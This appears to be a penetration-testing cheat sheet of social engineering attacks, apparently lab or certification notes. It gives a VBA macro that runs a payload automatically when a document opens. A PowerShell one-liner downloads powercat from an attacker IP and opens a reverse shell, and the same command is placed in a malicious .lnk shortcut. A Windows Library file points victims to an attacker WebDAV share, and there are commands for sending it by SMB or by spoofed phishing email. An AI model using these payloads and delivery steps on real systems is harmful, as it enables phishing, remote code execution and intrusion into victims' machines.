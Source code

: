 
| [[04 Social Engineering Attacks#Reconnaissance\|Reconnaissance]] | [[04 Social Engineering Attacks#MSOffice Macro\|MSOffice Macro]] | [[04 Social Engineering Attacks#Windows Library Files\|Windows Library Files]] |
| ------------------------------------------------------------- | ------------------------------------------------------------- | --------------------------------------------------------------------------- |
## Reconnaissance
```shell
# Goal: Enumerate for target's installed software
kali@kali:~$ exiftool -u -a <FILE.pdf>

# Use Canarytokens to generate a link with an embedded token to fetch information from a target's browser (use social engineering)
```
## MSOffice Macro
- Create document with embedded macro inside:
```vba
Sub AutoOpen()
	MyMacro
End Sub
Sub Document_Open()
	MyMacro
End Sub
Sub MyMacro()
	Dim Str As String

	<insert payload here>
	CreateObject("Wscript.Shell").Run Str
End Sub
```
- Generate payload in PowerShell:
```powershell
kali> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object System.Net.WebClient).DownloadString('http://<kali_ip>/powercat.ps1'); powercat -c <kali_ip> -p 4444 -e powershell"))	
```
## Windows Library Files
1. Setup WebDAV share server
	```shell
	kali@kali:~$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
	```
2. Create config.Library-ms to point to Kali (just change IP)
	```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
	<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
	<searchConnectorDescription>
	<isDefaultSaveLocation>true</isDefaultSaveLocation>
	<isSupported>false</isSupported>
	<simpleLocation>
	<url>http://192.168.119.2</url>
	</simpleLocation>
	</searchConnectorDescription>
	</searchConnectorDescriptionList>
	</libraryDescription>
	```
3. Create a malicious install.lnk shortcut as a reverse shell
	```shell
	# Create a shortcut(.lnk) file using the Windows Desktop: Right-Click, New, Shortcut
	# Change IP to Kali IP
	powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
	
	# Ensure powercat.ps1 in the same directory
	kali@kali:~$ python3 -m http.server 8000
	```
4. Send the .Library.ms file to the victim
	```shell
	# Via SMB
	kali@kali:~$ smbclient //<IP>/share -c 'put config.Library-ms'

	# Via SMTP/Email
	sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
	```
